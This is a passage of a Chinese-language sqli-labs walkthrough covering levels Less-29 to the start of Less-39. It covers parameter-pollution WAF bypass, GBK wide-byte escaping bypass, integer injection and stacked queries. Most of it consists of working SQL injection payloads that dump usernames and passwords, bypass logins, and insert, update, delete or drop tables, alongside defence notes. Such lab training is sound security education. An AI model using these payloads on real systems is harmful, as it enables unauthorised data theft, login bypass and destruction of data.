| --- | --- |
| 核心 | WAF 看第一个 `id`，PHP 用最后一个 `id` |
| 固定写法 | `?id=数字&id=注入payload` |
| 闭合 | 单引号 `'` |
| 与 Less-1 | 绕过 WAF 后，注入手法与基础联合/报错相同 |

***

### Less-30：GET · WAF / HPP 参数污染 · 双引号字符型

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-30/login.php?id=1` |
| 注入方式 | GET |
| 类型 | 字符型（**双引号**包裹） |
| 核心考点 | 与 Less-29 相同：**HPP + 前后端取参不一致** |
| 典型 SQL 形态 | `SELECT * FROM users WHERE id="$id" LIMIT 0,1`（源码常为 `$id='"'.$id.'"'`） |
| 主攻手法 | `?id=1&id=<双引号payload>` |

#### 源码逻辑（理解用）

WAF / 白名单逻辑与 Less-29 同类：第一个 `id` 必须像纯数字。\
业务层仍取最后一个 `id`，但拼进 SQL 时用的是**双引号**，因此闭合符从 `'` 换成 `"`。

#### 解题步骤

这关的正确的链接是：

```plain
http://sqli-labs/Less-30/login.php
```


**1）单参数被拦**

```latex
?id=1"
```

通常触发 WAF 拦截。


**2）HPP 绕过并确认双引号**

```latex
?id=1&id=1"
```

出现 SQL 语法错误或异常 → 第二个参数进入查询。

```latex
?id=1&id=1" --+
```

若恢复正常，说明双引号闭合 + 注释可用。


**3）判断列数**

```latex
?id=1&id=1" order by 1--+
?id=1&id=1" order by 2--+
?id=1&id=1" order by 3--+
?id=1&id=1" order by 4--+
```

以本地最后一个成功的 `order by` 为准。


**4）联合查询**

```latex
?id=1&id=-1" union select 1,2,3--+
```


**5）取库、表、列、数据**

```latex
?id=1&id=-1" union select 1,database(),3--+
```

```latex
?id=1&id=-1" union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+
```

```latex
?id=1&id=-1" union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users'--+
```

```latex
?id=1&id=-1" union select 1,group_concat(username,0x3a,password),3 from users--+
```


**6）报错注入备选**

```latex
?id=1&id=1" and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+

?id=1&id=1" and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) --+

?id=1&id=1" and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1) --+

?id=1&id=1" and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e),1) --+
```


**7）与 Less-29 对照练习**

| 项目 | Less-29 | Less-30 |
| --- | --- | --- |
| HPP 形式 | `?id=1&id=...` | 相同 |
| 闭合 | `'` | `"` |
| 联合示例 | `id=-1' union select ...` | `id=-1" union select ...` |
| WAF 思路 | 第一个 id 纯数字 | 相同 |

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 核心 | 仍是 HPP，只改闭合符 |
| 固定前缀 | 第一个 `id=1`（或其它纯数字）骗过白名单 |
| 注入位置 | 第二个 `id` |
| 列数 | 不要沿用其它关的假设，本地 `order by` 实测 |

***

### Less-31：GET · WAF / HPP 参数污染 · 双引号 + 括号 `")`

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-31/login.php?id=1` |
| 注入方式 | GET |
| 类型 | 字符型 |
| 闭合方式 | `")`（双引号 + 右括号） |
| 核心考点 | 与 Less-29/30 相同：**HPP（HTTP 参数污染）** / 前后端对同名参数取值不一致 |
| 典型 SQL 形态 | `... WHERE id=("$id") ...` 一类 |
| 主攻手法 | `?id=1&id=<带 ") 的 payload>` |

#### 源码逻辑（理解用）

1. **WAF / 白名单**：解析查询串时往往只检查**第一个** `id`，要求为纯数字，否则跳转拦截页。
2. **业务层**：`$_GET['id']` 取**最后一个**同名参数，再拼进带双引号和括号的 SQL。

因此第一个 `id` 负责“看起来合法”，第二个 `id` 负责真正注入；与 29、30 的差别主要在**闭合符**。

#### 解题步骤

这关的正确的链接是：

```plain
http://sqli-labs/Less-31/login.php
```


**1）确认 WAF 存在**

```latex
?id=1"
?id=1")
```

单参数带引号/括号时，常被拦截。


**2）HPP 绕过并确认闭合**

```latex
?id=1&id=1"
?id=1&id=1")
?id=1&id=1")--+
```

* 双参数后出现 SQL 语法错误或不被 WAF 踢走 → 第二个 `id` 进了 SQL
* `1")--+` 能让语句完整 → 闭合为 `")`


**3）判断列数（以本地为准）**

```latex
?id=1&id=1") order by 1--+
?id=1&id=1") order by 2--+
?id=1&id=1") order by 3--+
?id=1&id=1") order by 4--+
```


**4）联合查询找显示位**

```latex
?id=1&id=-1") union select 1,2,3--+
```


**5）取库、表、列、数据**

```latex
?id=1&id=-1") union select 1,database(),3--+
```

```latex
?id=1&id=-1") union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+
```

```latex
?id=1&id=-1") union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users'--+
```

```latex
?id=1&id=-1") union select 1,group_concat(username,0x3a,password),3 from users--+
```


**6）报错注入备选**

```latex
?id=1&id=1") and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+

?id=1&id=1") and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) --+

?id=1&id=1") and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1) --+

?id=1&id=1") and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e),1) --+
```


**7）与 29、30 对照**

| 关卡 | HPP 形式 | 第二个 id 闭合 |
| --- | --- | --- |
| 29 | `?id=1&id=...` | `'` |
| 30 | `?id=1&id=...` | `"` |
| 31 | `?id=1&id=...` | `")` |

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 核心 | 仍是「第一个 id 过 WAF，最后一个 id 进 SQL」 |
| 闭合 | `")`，不要只写 `"` |
| 列数 | 本地 `order by` 实测，再写 `union select` |

***

### Less-32：GET · 绕过 addslashes 类转义 · 宽字节注入（GBK）

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-32/?id=1` |
| 注入方式 | GET |
| 类型 | 字符型（单引号）+ **转义** |
| 过滤 | 对 `\`、`'`、`"` 做类似 `addslashes` 的转义（本关多为自定义 `check_addslashes()`） |
| 关键条件 | 连接库时使用 `SET NAMES gbk`（或等价 GBK 客户端编码） |
| 主攻手法 | **宽字节注入**：`%df'` 吃掉转义产生的反斜杠 |

#### 源码逻辑（理解用）

1. 输入中的 `'` 会被转成 `\'`（前面多一个反斜杠 `\`，字节为 `0x5c`）。
2. 若按 UTF-8 理解，单引号仍被转义，无法闭合字符串。
3. 若 MySQL 客户端/连接编码为 **GBK**：
   * GBK 中很多汉字为**两字节**
   * 特意在 `'` 前加高位字节（常用 `%df`）
   * 转义后字节序列类似：`%df` + `%5c`（反斜杠）+ `%27`（引号）
   * GBK 会把 `%df%5c` 当成一个汉字，“吃掉”反斜杠，留下单独的 `'` 去闭合 SQL

结果：转义形同虚设，重新变成单引号字符型注入。

#### 解题步骤

**1）普通单引号无效**

```latex
?id=1'
```

因被转成 `\'`，往往**不会**出现可用的语法突破（或表现与未注入不同）。


**2）宽字节确认注入**

```latex
?id=1%df'
?id=1%df%27
```

出现 SQL 语法错误 → 宽字节绕过成功，闭合仍按单引号理解。


**3）宽字节 + 注释**

```latex
?id=1%df'%20--+
?id=1%df' --+
```


**4）判断列数**

```latex
?id=1%df' order by 1--+
?id=1%df' order by 2--+
?id=1%df' order by 3--+
?id=1%df' order by 4--+
```

以本地成功结果为准。


**5）联合查询**

```latex
?id=-1%df' union select 1,2,3--+
```


**6）取数据**

```latex
?id=-1%df' union select 1,database(),3--+
```


```latex
?id=-1%df' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+
```

注意此处数据库名要用十六进制 (HEX) 编码替代，避免单引号的使用。

MySQL 中 `table_name=0x7573657273` 等价于 `table_name='users'`（hex 字面量在字符串比较时自动转换），而且不含任何引号字符，addslashes 无从下手。

这里需要注意，不能出现单引号，于是我们在 users 前面加入 0x ，然后将 users 转化为16进制。


```latex
?id=-1%df' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name=0x7573657273--+
```


```latex
?id=-1%df' union select 1,group_concat(username,0x3a,password),3 from users--+
```


**7）报错注入备选**

```latex
?id=1%df' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+

?id=1%df' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) --+

?id=1%df' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273),0x7e),1) --+

?id=1%df' and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e),1) --+
```


**8）注意点**

| 点 | 说明 |
| --- | --- |
| 编码 | 必须是 GBK（或其它会把 `%df%5c` 当多字节字符的编码）；UTF-8 下通常无效 |
| URL | 浏览器可能把 `'` 编成 `%27`，写成 `%df%27` 更稳 |
| 其它宽字节 | 有时也试 `%a1`、`%f1` 等，本关经典为 `%df` |
| 与过滤函数 | 自定义转义或 `addslashes()` 原理相同：都是加 `\`，再被宽字节吃掉 |

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 现象 | 普通 `'` 被转义；`%df'` 可注入 |
| 本质 | GBK 多字节 + 转义反斜杠被“吞掉” |
| 固定前缀 | 注入片段前加 `%df`（在闭合引号前） |
| 防御对照 | 统一 UTF-8；慎用仅依赖转义的拼接；优先预编译 |

***

### Less-33：GET · 绕过 `addslashes()` · 宽字节注入（GBK）

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-33/?id=1` |
| 注入方式 | GET |
| 类型 | 字符型（单引号）+ 转义 |
| 过滤函数 | PHP 内置 `addslashes()`（对 `'`、`"`、`\`、NUL 前加反斜杠） |
| 关键条件 | `SET NAMES gbk`（或等价 GBK 连接编码） |
| 与 Less-32 差异 | 32 多为自定义 `check_addslashes()`；33 直接调用 `addslashes()`，**绕过手法相同** |
| 主攻手法 | 宽字节：`%df'` 吃掉转义反斜杠 |

#### 源码逻辑（理解用）

```latex
$id = addslashes($_GET['id']);
mysql_query("SET NAMES gbk");
$sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

1. 输入 `'` → 变成 `\'`（多字节 `0x5c 0x27`）。
2. 在 GBK 下，在 `'` 前加 `%df`，转义后出现 `%df%5c%27`。
3. GBK 把 `%df%5c` 当成一个汉字，反斜杠被“吃掉”，剩下的 `'` 重新闭合字符串。

#### 解题步骤

**1）普通单引号无效**

```latex
?id=1'
```

被 `addslashes` 转义后，通常无法形成有效注入。


**2）宽字节确认**

```latex
?id=1%df'
?id=1%df%27
```

出现 SQL 语法错误 → 宽字节绕过成功。


**3）注释与列数**

```latex
?id=1%df' --+
?id=1%df' order by 1--+
?id=1%df' order by 2--+
?id=1%df' order by 3--+
?id=1%df' order by 4--+
```

列数以本地最后一个成功的 `order by` 为准。


**4）联合查询**

```latex
?id=-1%df' union select 1,2,3--+
```


**5）取数据**

```latex
?id=-1%df' union select 1,database(),3--+
```


```latex
?id=-1%df' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+
```

注意此处数据库名要用十六进制 (HEX) 编码替代，避免单引号的使用。

MySQL 中 `table_name=0x7573657273` 等价于 `table_name='users'`（hex 字面量在字符串比较时自动转换），而且不含任何引号字符，addslashes 无从下手。

这里需要注意，不能出现单引号，于是我们在 users 前面加入 0x ，然后将 users 转化为16进制。


```latex
?id=-1%df' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name=0x7573657273--+
```


```latex
?id=-1%df' union select 1,group_concat(username,0x3a,password),3 from users--+
```


**6）报错注入备选**

```latex
?id=1%df' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+

?id=1%df' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) --+

?id=1%df' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273),0x7e),1) --+

?id=1%df' and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e),1) --+
```


**7）与 Less-32 对照**

| 项目 | Less-32 | Less-33 |
| --- | --- | --- |
| 转义实现 | 自定义正则类 addslashes | 内置 `addslashes()` |
| 编码条件 | GBK | GBK |
| 绕过 | `%df'` / `%df%27` | 相同 |
| 后续注入 | 联合 / 报错 | 相同 |

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 本质 | 与 32 相同：GBK 多字节吃掉 `\` |
| 函数名 | 换成官方 `addslashes()` 并不提高安全性（在错误编码下） |
| 防御 | 统一 UTF-8；`character_set_client=binary`；参数化查询 |

***

### Less-34：POST · 绕过 `addslashes()` · 宽字节注入（GBK）

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-34/` |
| 注入方式 | **POST**（登录框，常见参数 `uname`、`passwd`） |
| 类型 | 字符型 + `addslashes()` 转义 |
| 关键条件 | 数据库连接为 **GBK** |
| 与 Less-33 差异 | 通道从 GET 改为 POST；原理仍是宽字节吃反斜杠 |
| 主攻手法 | 在 POST 体里对注入点使用 `%df'`（或 `%df%27`） |

#### 源码逻辑（理解用）

对 POST 的用户名/密码先 `addslashes`，再拼进类似：

```sql
SELECT ... WHERE uname='$uname' AND passwd='$passwd'
```

在 GBK 下，宽字节同样使 `\'` 中的 `\` 失效。注入点可能在 `uname` 或 `passwd`，以实测为准（常见在用户名或密码任一处构造均可，需看哪个进了带引号的条件）。

#### 解题步骤

**1）普通引号被转义**

表单提交：

```latex
uname=admin'
passwd=1
```

通常无法注入（或只表现为登录失败，无可用语法突破）。


**2）宽字节确认（用 Burp 改包）**

抓登录请求，修改 POST body，例如：

```http
uname=1%df'%20or%201%3d1%23&passwd=1&submit=Submit
```

或：

```http
uname=1%df' or 1=1#&passwd=1&submit=Submit
```

* 若能绕过登录或出现 SQL 错误 → 宽字节生效
* 注意：部分浏览器插件会把 `%` 再次编码成 `%25`，导致失败；**优先用 Burp Repeater**，保证 `%df` 以原始字节提交


密码框同理可测：

```http
uname=admin&passwd=1%df' or '1'='1&submit=Submit

uname=admin&passwd=1%df' or 1=1#&submit=Submit

uname=admin&passwd=1%df'%20or%201%3d1%23&submit=Submit
```


**3）联合查询（注意 POST 查询列数）**

本关 SELECT 字段数可能与 GET 关不同（有的环境只选 2 列）。先测：

```http
uname=-1%df' union select 1,2#&passwd=1&submit=Submit
uname=-1%df' union select 1,2,3#&passwd=1&submit=Submit
```

以不报“列数不匹配”且能回显的为准。


**4）取数据示例（按 2 列调整）**

```http
uname=-1%df' union select 1,database()#&passwd=1&submit=Submit

uname=-1%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #&passwd=1&submit=Submit

uname=-1%df' union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273 #&passwd=1&submit=Submit
```

```http
uname=-1%df' union select 1,group_concat(username,0x3a,password) from users#&passwd=1&submit=Submit
```


若为 3 列，则：

```http
uname=-1%df' union select 1,database(),3#&passwd=1&submit=Submit
```

**5）报错注入备选**

```http
uname=1%df' and updatexml(1,concat(0x7e,(select database()),0x7e),1)#&passwd=1&submit=Submit

uname=1%df' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) #&passwd=1&submit=Submit

uname=1%df' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273),0x7e),1) #&passwd=1&submit=Submit

uname=1%df' and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from  users),0x7e),1) #&passwd=1&submit=Submit
```


**6）其它宽字节 / 编码变体**

| 写法 | 说明 |
| --- | --- |
| `%df'` / `%df%27` | 最常用 |
| `%bb%27`、`%a1%27` 等 | 部分环境也可用的高位字节 |
| 部分资料中的 UTF-16 相关编码 | 环境相关，失败时仍回到 `%df` |

**7）操作注意**

| 点 | 说明 |
| --- | --- |
| 工具 | Burp 改 POST，避免二次 URL 编码 |
| Content-Type | `application/x-www-form-urlencoded` |
| 注释 | POST 里 `#` 或 `--+` 均可试 |
| 回显 | 登录成功页的用户名/密码位，或报错信息 |

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 与 32/33 | 同为宽字节绕过转义，本关是 **POST** |
| 关键 | `%df` 必须真正到达服务器，不能被编成 `%25df` |
| 列数 | POST 登录查询列数可能是 2，先 `union select` 试列数 |
| 防御 | 与 33 相同：编码统一、参数化，不依赖 `addslashes` 防注入 |

***

### Less-35：GET · 整型注入 · 转义形同虚设

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-35/?id=1` |
| 注入方式 | GET |
| 类型 | **数字型（整型）** |
| 过滤 | 仍可能对输入做 `addslashes` / 类似转义 |
| 典型 SQL 形态 | `SELECT * FROM users WHERE id=$id LIMIT 0,1`（**无引号**包裹 `$id`） |
| 主攻手法 | 直接 `and` / `union`，不依赖引号闭合；字符串字面量用十六进制 |

#### 源码逻辑（理解用）

```latex
$id = check_addslashes($_GET['id']);   // 或类似转义
mysql_query("SET NAMES gbk");          // 有的环境仍有
$sql = "SELECT * FROM users WHERE id=$id LIMIT 0,1";
```

* `id` **没有**单引号/双引号包裹 → 这是整型注入。
* 转义主要影响 `'`、`"`、`\`；整型注入不靠引号闭合，转义几乎帮不上忙。
* 子查询里若写 `table_name='users'`，引号可能被转义，此时把 `'users'` 写成 `0x7573657273` 等十六进制即可。

#### 解题步骤

**1）区分字符型 / 数字型**

```latex
?id=1
?id=1'
?id=1"
```

* 加引号后仍“正常”或表现异常但不符合字符型报错规律时，结合：

```latex
?id=1 and 1=1
?id=1 and 1=2
```

真假回显不同 → 数字型注入成立。宽字节试 `1%df'` 若总不按字符型走，更应转向整型思路。


**2）判断列数**

```latex
?id=1 order by 1--+
?id=1 order by 2--+
?id=1 order by 3--+
?id=1 order by 4--+
```

以本地最后一个成功的数字为准。


**3）联合查询**

```latex
?id=-1 union select 1,2,3--+
```


**4）取库名**

```latex
?id=-1 union select 1,database(),3--+
```


**5）取表名（字符串条件用十六进制更稳）**

```latex
?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+
```

或：

```latex
?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=0x7365637572697479--+
```

（`0x7365637572697479` = `security`）


**6）取列名**

```latex
?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name=0x7573657273--+
```

（`0x7573657273` = `users`）


**7）取数据**

```latex
?id=-1 union select 1,group_concat(username,0x3a,password),3 from users--+
```


**8）报错注入备选**

```latex
?id=1 and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+

?id=1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) --+

?id=1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273),0x7e),1) --+

?id=1 and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e),1) --+
```


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 核心 | 无引号 → 整型注入，不必纠结宽字节闭合 |
| 转义 | 对 `id=1 union ...` 基本无影响 |
| 技巧 | 需要 SQL 字符串时用 `0x...` 十六进制，避免被转义的引号 |
| 教学意义 | 打破“所有注入都要先闭合引号”的惯性 |

***

### Less-36：GET · 绕过 `mysql_real_escape_string()` · 宽字节注入

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-36/?id=1` |
| 注入方式 | GET |
| 类型 | 字符型（单引号）+ 转义 |
| 过滤函数 | `mysql_real_escape_string()` |
| 关键条件 | 源码中常有 `SET NAMES gbk`，且**未**把 client 固定为 binary / 未正确 `mysql_set_charset('gbk')` 时，宽字节仍可能成功 |
| 与 32/33 关系 | 转义函数换成 `mysql_real_escape_string`，手法仍是 `%df'` |
| 主攻手法 | 宽字节注入 |

#### 源码逻辑（理解用）

```latex
$id = mysql_real_escape_string($_GET['id']);  // 或封装后的 check 函数
mysql_query("SET NAMES gbk");
$sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

* `mysql_real_escape_string` 会转义 `'`、`"`、`\`、换行等。
* 在连接编码为 GBK、且函数未按连接字符集正确处理多字节时，`%df` + 转义产生的 `\` 仍可被当成一个汉字，单引号逃逸。
* 资料中常强调：若正确 `mysql_set_charset('gbk')` 后再转义，宽字节可能失效；本靶场源码配置下通常仍可按 32/33 方式打。

#### 解题步骤

**1）普通单引号被转义**

```latex
?id=1'
```

一般无法形成有效闭合。


**2）宽字节确认**

```latex
?id=1%df'
?id=1%df%27
```

出现 SQL 语法错误 → 宽字节可用。


**3）列数与联合**

```latex
?id=1%df' order by 1--+
?id=1%df' order by 2--+
?id=1%df' order by 3--+
?id=1%df' order by 4--+

?id=-1%df' union select 1,2,3--+
```

列数以本地为准。


**4）取数据**

```latex
?id=-1%df' union select 1,database(),3--+
```

```latex
?id=-1%df' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+
```

```latex
?id=-1%df' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database() and table_name=0x7573657273--+
```

（表名也可用普通 `'users'`；若引号再被转义，改用十六进制。）

```latex
?id=-1%df' union select 1,group_concat(username,0x3a,password),3 from users--+
```


**5）报错注入备选**

```latex
?id=1%df' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+

?id=1%df' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) --+

?id=1%df' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273),0x7e),1) --+

?id=1%df' and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e),1) --+
```


**6）与 32/33/35 对照**

| 关卡 | 转义 | id 是否加引号 | 主手法 |
| --- | --- | --- | --- |
| 32 | 自定义类 addslashes | 有 `'$id'` | `%df'` 宽字节 |
| 33 | `addslashes()` | 有 | `%df'` 宽字节 |
| 35 | 有转义但 **整型** | 无 | 直接 union，不用宽字节 |
| 36 | `mysql_real_escape_string()` | 有 | `%df'` 宽字节 |

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 核心 | 字符型 + 转义 + GBK → 宽字节 |
| 与 35 | 35 不靠引号；36 必须先用 `%df` 逃逸引号 |
| 函数 | `mysql_real_escape_string` 不是在所有字符集配置下都绝对安全 |
| 防御 | 统一 UTF-8；参数化；正确设置连接字符集后再转义 |

***

### Less-37：POST · 绕过 `mysql_real_escape_string()` · 宽字节注入（GBK）

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-37/` |
| 注入方式 | **POST**（登录框，常见 `uname`、`passwd`） |
| 类型 | 字符型 + 转义 |
| 过滤函数 | `mysql_real_escape_string()`（对用户名、密码等） |
| 关键条件 | 连接编码为 **GBK**（源码中常见 `SET NAMES gbk`） |
| 与前后关关系 | 相对 Less-36：同为 `mysql_real_escape_string`，通道改为 POST；相对 Less-34：同为 POST 宽字节，函数从 `addslashes` 换成 `mysql_real_escape_string` |
| 主攻手法 | POST 体中使用 `%df'` / `%df%27` 宽字节 |

#### 源码逻辑（理解用）

对 POST 参数先 `mysql_real_escape_string`，再拼进：

```sql
SELECT ... WHERE uname='$uname' AND passwd='$passwd' ...
```

在 GBK 下，`%df` + 转义产生的 `\`（`%5c`）被当成一个汉字，单引号重新获得闭合能力，与 34/36 原理相同。

#### 解题步骤

**1）普通引号被转义**

```latex
uname=admin'
passwd=1
```

通常无法注入。


**2）宽字节确认（Burp 改包）**

```http
uname=1%df' or 1=1#&passwd=1&submit=Submit
```

或：

```http
uname=1%df%27 or 1=1#&passwd=1&submit=Submit
```

* 能绕过登录或出现 SQL 错误 → 宽字节成功
* **务必用 Burp**：避免前端插件把 `%` 编成 `%25`，导致 `%df` 失效


也可在 `passwd` 上试：

```http
uname=admin&passwd=1%df' or 1=1#&submit=Submit
```


**3）联合查询（先确认列数）**

本关 SELECT 字段数可能是 2 或 3，先试：

```http
uname=-1%df' union select 1,2#&passwd=1&submit=Submit
uname=-1%df' union select 1,2,3#&passwd=1&submit=Submit
```


**4）取数据示例**

两列时：

```http
uname=-1%df' union select 1,database()#&passwd=1&submit=Submit

uname=-1%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #&passwd=1&submit=Submit

```

```http
uname=-1%df' union select 1,group_concat(username,0x3a,password) from users#&passwd=1&submit=Submit
```

三列时把 `union select` 补足三列即可。


表名/库名若引号再被转义，可用十六进制：

```http
uname=-1%df' union select 1,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273 #&passwd=1&submit=Submit
```

**5）报错注入备选**

```http
uname=1%df' and updatexml(1,concat(0x7e,(select database()),0x7e),1)#&passwd=1&submit=Submit

uname=1%df' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) #&passwd=1&submit=Submit

uname=1%df' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name=0x7573657273),0x7e),1) #&passwd=1&submit=Submit

uname=1%df' and updatexml(1,concat(0x7e,(select group_concat(username,0x3a,password) from users),0x7e),1) #&passwd=1&submit=Submit
```


#### 要点小结

| 点 | 说明 |
| --- | --- |
| 核心 | POST + `mysql_real_escape_string` + GBK → 宽字节 |
| 与 34 | 同为 POST 宽字节，转义函数不同，payload 形态相同 |
| 与 36 | 同为 `mysql_real_escape_string`，本关用 POST |
| 注意 | `%df` 必须原样到达服务器 |

***

### Stacked Injections 堆叠注入

### Less-38：GET · 堆叠注入（Stacked Queries）· 单引号字符型

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-38/?id=1` |
| 注入方式 | GET |
| 类型 | 字符型（单引号） |
| 核心考点 | **堆叠注入**：一条请求里执行多条 SQL |
| 关键 API | 后端使用 `mysqli_multi_query()`（支持 `;` 分隔的多语句） |
| 典型 SQL 形态 | `SELECT * FROM users WHERE id='$id' LIMIT 0,1` |
| 与普通联合注入 | 联合只能拼在同一条 SELECT 里；堆叠可在后面再执行 INSERT/UPDATE/DELETE/CREATE 等 |

#### 源码逻辑（理解用）

```latex
$sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
mysqli_multi_query($con, $sql);
```

* 以前关卡多用 `mysql_query` / `mysqli_query`，**一次只能跑一条语句**，`;` 后面会被忽略或报错。
* `mysqli_multi_query` 允许：

```sql
SELECT ... WHERE id='1'; INSERT INTO users ...;
```

闭合单引号并加分号后，即可追加任意语句。

#### 解题步骤

**1）确认字符型注入**

```latex
?id=1
?id=1'
?id=1' --+
```

`1'` 报错、`1'--+` 恢复正常 → 单引号闭合。


**2）确认支持堆叠（用可观察副作用验证）**

插入测试用户（字段以你库表结构为准，常见有 `id,username,password`）：

```latex
?id=1'; insert into users(id,username,password) values(38,'less38','less38')--+
```

再用正常查询或：

```latex
?id=-1' union select 1,username,password from users where username='less38'--+
```

能查到新用户 → 堆叠成功。


**3）建表 / 复制结构（演示堆叠能力）**

```latex
?id=1'; create table less38_copy like users--+
```

```latex
?id=1'; insert into less38_copy select * from users--+
```

随后用联合查询看 `information_schema` 或业务回显，确认新表存在。

```http
?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+
```


**4）传统联合取数（本关仍然可用）**

堆叠是考点，但不妨碍联合：

```latex
?id=1' order by 1 --+
?id=1' order by 2 --+
?id=1' order by 3 --+
?id=1' order by 4 --+

?id=-1' union select 1,database(),3--+
?id=-1' union select 1,group_concat(username,0x3a,password),3 from users--+
```

列数以本地 `order by` 为准。


**5）其它堆叠示例（仅限靶场）**

```latex
?id=1'; update users set password='hacked' where username='less38'--+
```

```latex
?id=1'; delete from users where username='less38'--+
```

删除表 less38_copy。

```latex
?id=1'; drop table less38_copy --+
?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+
```

练习后可在靶场首页 **Setup/resetDB** 恢复数据。


**6）关于 **`sleep`** 等**

多语句时，页面往往只处理**第一个结果集**；后面的 `SELECT sleep(5)` 可能已执行但前端无感。验证堆叠优先用 **INSERT/建表** 等有持久副作用的操作，而不是只看延时。

#### 要点小结

| 点 | 说明 |
| --- | --- |
| 前提 | 驱动/API 允许多语句（此处为 `mysqli_multi_query`） |
| 语法 | `';` 结束当前语句，后面写下一条 |
| 闭合 | 先 `'` 闭合原字符串，再 `;` |
| 危害 | 可写、可删、可改结构，远超“只读联合” |
| 防御 | 禁用多语句；参数化；最小权限账号 |

***

### Less-39：GET · 堆叠注入 · 整型（无引号）

#### 关卡信息

| 项目 | 说明 |
| --- | --- |
| 路径 | `/Less-39/?id=1` |
| 注入方式 | GET |
| 类型 | **数字型** + 堆叠注入 |
| 关键 API | `mysqli_multi_query()`（支持多语句） |
| 典型 SQL 形态 | `SELECT * FROM users WHERE id=$id LIMIT 0,1`（`$id` **无引号**） |
| 与 Less-38 差异 | 38 为单引号字符型；39 **不需要**用 `'` 闭合，直接写 `;` 后的第二条语句 |

#### 源码逻辑（理解用）

```latex
$sql = "SELECT * FROM users WHERE id=$id LIMIT 0,1";
mysqli_multi_query($con, $sql);
```

整型条件下，输入 `1; insert ...` 会拼成：

```sql
SELECT * FROM users WHERE id=1; insert ... LIMIT 0,1
```

第二条语句后的 `LIMIT` 可用 `--+` / `#` 注释掉。

#### 解题步骤

**1）确认数字型**

```latex
?id=1
?id=1'
?id=1 and 1=1
?id=1 and 1=2
```

无需引号即可改变逻辑 → 整型。


**2）确认堆叠可用**

```latex
?id=1; insert into users(id,username,password) values(39,'less39','less39')--+
```
